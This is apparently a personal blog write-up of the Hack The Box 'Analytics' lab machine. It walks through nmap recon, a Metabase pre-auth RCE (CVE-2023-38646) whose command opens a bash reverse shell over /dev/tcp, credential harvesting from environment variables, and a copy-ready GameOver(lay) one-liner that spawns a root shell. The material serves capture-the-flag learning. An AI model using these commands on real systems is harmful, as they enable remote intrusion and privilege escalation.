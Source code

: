 ```yaml
---
layout: post
title: Analytics writeup (HackTheBox)
author: wizarddos
category: Hacking
excerpt_separator: <!--more-->
---
```


Hi there - that's my first Hack The box writeup.
Today, I'll cover [Analytics](https://app.hackthebox.com/machines/569) box

So, off we go
<!--more-->
## Recon
First - I started rustscan
```
$ rustscan -a $IP
```
And it gave me 2 ports `22` and `80` - let's enumerate further
```
$ nmap -sC -sV -oN scan.txt $IP -p22,80    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 15:14 CET
Nmap scan report for 10.10.11.233
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have also found a new domain - `http://analytical.htb/`
Add it to `/etc/hosts` with IP address 
```
$ sudo nano /etc/hosts
```
And then in new line
```
[Machine IP]      analytical.htb
```
Close editor with `Ctrl-X` and get to the site
## Website enumeration

In source code, we can see another subdomain - `data.analytical.htb`

Append it to `/etc/hosts` as well
```
$ echo "[Machine IP]    data.analytical.htb"
```

In there, we have **metabase** instance deployed
![Image of the login page](https://images.prismic.io/superpupertest/119ff6a6-3a33-47ba-a5ea-1fbe3c0ff516_metabase-login-page-in-browser.webp?auto=format&w=680&h=398.253&dpr=3)
(as for some reason, I can't access to this machine - Image comes from [Maddevs' writeup](https://maddevs.io/writeups/hackthebox-analytics/))
{: .subtext}

We don't need to brute-force the password - as there is one exploit for this particular version of metabase

**CVE-2023-38646**

You can get the exploit from [this Github repo](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

As _Usage_ section says
> The script needs the target URL, the setup token and a command that will be executed. The setup token can be obtained through the /api/session/properties endpoint. Copy the value of the setup-token key.

So, we go to `http://data.analytical.htb/api/session/properties` and copy `setup-token` value

First, set up netcat listener so we can get reverse shell connection
```
$ nc -lvnp 2000
```
Then, we can utilize this exploit
```
$ python3 main.py -u http://data.analytical.htb -t [Your copied token] -c "bash -i 1>& /dev/tcp/[Your IP]/2000 0>&1"
```

When it's executed - in terminal with netcat, we should have operating shell

## Privilege escalation

We can't really run `sudo`, nor any `cronjobs` are present

Maybe enviromental variables?

```
$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d0ca4e533c16
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```

We have 2 interesting values
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Actually, this credentials can be used to log into SSH and exit the container we are in
```
$ ssh metalytics@analytical.htb
```

So, inside SSH we can find `user.txt` file
```
cat user.txt
[REDACTED]
```

### Getting Root

This system is vulnerable to **GameOver(lay)** exploit

It consists of **CVE-2023-2640** and **CVE-2023-32629**

If you want to know more - check [CrowdStrike publication](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) about it

Right now, we can exploit it with simple payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

(I didn't add thath `$` by default - so you can copy it)

Then, we should have root - get the flag

```
# cat /root/root.txt
[REDACTED]
```

And, that's it
Machine Pwned

## Conclusion

I hope this walkthrough helped you - I actually liked hacking this machine

I've learned new exploits and overall pracised my enumeration skills

So, that's it - see you next time